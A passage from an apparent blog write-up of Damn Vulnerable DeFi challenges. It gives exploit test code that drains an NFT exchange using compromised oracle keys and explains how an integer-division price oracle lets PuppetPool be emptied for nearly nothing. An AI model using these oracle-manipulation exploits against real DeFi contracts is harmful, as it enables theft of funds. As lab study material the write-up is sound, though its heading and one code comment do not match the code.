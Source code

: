 ```javascript
        //we get the median price, so changing 2 of the 3 to the same value will become the median. Change price to 1000 ether
        await this.oracle.postPrice("DVNFT", ether('10000'), {from: '0xe92401A4d3af5E446d93D11EEc806b1462b39D15'});
        await this.oracle.postPrice("DVNFT", ether('10000'), {from: '0x81A5D6E50C214044bE44cA0CB057fe119097850c'});

        //sell NFT, which drains the exchange's funds
        await this.token.approve(this.exchange.address, 1);
        await this.exchange.sellOne(1);
    });
```

## [8. Compromised](https://www.damnvulnerabledefi.xyz/challenges/8.html)

The `PuppetPool` contract allows users to borrow tokens by depositing twice the value of ETH sent. However, the price is determined by the balances in the Uniswap liquidity pool as follows:

```javascript
    function computeOraclePrice() public view returns (uint256) {
        return uniswapOracle.balance.div(token.balanceOf(uniswapOracle));
    }
```

The liquidity pool starts with 10 ETH and 10 DVT balances. If we want to swap 10 DVT for ETH, we need to maintain $$ 10 * 10 = 100 = 20 * x $$ where $$ x $$ is the number of ETH remaining in the pool. This means we'll receive 5 ETH from swapping 10 DVT. However, this also means `computeOraclePrice()` will return $$ 5/20 = 0 $$ as the oracle price since integer division is used. Now we can borrow any amount of tokens, as along as we provide, well, nothing!

```javascript
    it('Exploit', async function () {
        this.token.approve(this.uniswapExchange.address, ether('100000'), {from: attacker});
        this.uniswapExchange.tokenToEthSwapInput(ether('10'), ether('1'), (await web3.eth.getBlock('latest')).timestamp * 2, {from: attacker});
        this.lendingPool.borrow(ether('10000'), {value: ether('1'), from: attacker});
    });
```

## Conclusion

Overall, these challenges were fun and I've learnt a lot along the way. I also really like the way the challenges are laid out, where you just need to code up your own contracts and short exploit snippets on your machine - no messing with private or testnet chains. If you're interested in DeFi or smart contract security, I'd highly recommend giving this a try! 